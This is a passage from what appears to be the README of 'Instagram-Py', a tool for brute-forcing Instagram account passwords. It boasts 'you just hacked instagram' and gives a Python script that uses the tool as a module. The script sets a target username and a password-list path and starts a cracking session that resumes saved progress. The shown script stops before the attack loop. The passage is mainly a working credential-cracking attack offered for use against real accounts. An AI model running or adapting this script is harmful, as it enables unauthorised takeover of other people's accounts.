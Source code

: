 Thats it you just hacked instagram with a very simple algorithm!
Contribution

https://img.shields.io/github/contributors/deathsec/instagram-py.svg?style=flat-square

Contribute anything you can to this repo (Issues | Pull request) , help is much appreciated.

Please Refer CONTRIBUTING for more information on contributing!

Using Instagram-Py as API

Instagram-Py supports to be used as a module as of v1.3.2 , so you don't want to reproduce my code. Just use it!

For some reason you wish not to use my software then you can use my software as a module and embed into your own software , anyway its native so its just gonna run the same as the official command-line tool unless you do something crazy.

Follow the same installation method mentioned above to install Instagram-Py API.

This is a simple script to conduct a bructe force attack using instagram-py as a API.

#!/usr/bin/env python3
'''
  This is the same thing that is in the __init__ file of the command-line
  tool.
'''
from InstagramPy.InstagramPyCLI import InstagramPyCLI
from InstagramPy.InstagramPySession import InstagramPySession , DEFAULT_PATH
from InstagramPy.InstagramPyInstance import InstagramPyInstance
from datetime import datetime

username = "TARGET ACCOUNT USERNAME"
password = "PASSWORD LIST PATH"

appInfo = {
   "version"     : "0.0.1",
   "name"        : "Instagram-Py Clone",
   "description" : "Some Module to crack instagram!",
   "author"      : "YourName",
   "company"     : "YourCompany",
   "year"        : "2017",
   "example"     : ""
}

cli = InstagramPyCLI(appinfo = appInfo , started = datetime.now() , verbose_level = 3)

'''
# USE THIS IF YOU WANT
cli.PrintHeader()
cli.PrintDatetime()
'''
session = InstagramPySession(username , password , DEFAULT_PATH , DEFAULT_PATH , cli)
session.ReadSaveFile(True) # True to countinue attack if found save file.
'''
# USE THIS IF YOU WANT
cli.PrintMagicCookie(session.magic_cookie)
'''
